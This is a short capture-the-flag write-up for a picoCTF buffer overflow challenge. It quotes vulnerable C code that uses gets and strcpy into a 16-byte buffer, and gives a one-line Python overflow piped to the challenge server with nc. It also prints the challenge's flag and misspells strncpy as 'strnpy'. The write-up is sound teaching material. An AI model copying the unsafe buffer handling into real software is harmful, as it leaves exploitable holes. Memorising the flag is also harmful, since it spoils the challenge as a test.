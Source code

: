 ### Current progress: Done

An unstripped ELF 32-bit executable and its c source code was given.

As the challenge name suggest, this is likely a buffer overflow problem.

The point of focus in our c code is this `vuln` function:
```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

and part of the `main` function:
```c
char buf1[100];
gets(buf1); 
vuln(buf1);
```

Copying an array of 100 characters into one that's 16 characters is not a good idea.
In fact, one should never use `strcpy` and should use `strnpy` instead.
Here is a [YouTube video](https://youtu.be/7mKfWrNQcj0) by Jacob Sorber explains why not to ever use `strcpy`.

We `chmod +x vuln` and then printing "A"  `python -c 'print("A" * 20)' | ./vuln` which gives us our test `flag.txt`

### Explanation
The flag is given when the program received a segfaults:
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
and here's where they attached `sigsegv_handler` to the `SIGSEGV` (segfault):
```c
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```

Anyway, we can adapt the code to be piped into netcat as follow:
```bash
python -c 'print("A" * 20)' | nc saturn.picoctf.net [port]
```

This gives use the flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}`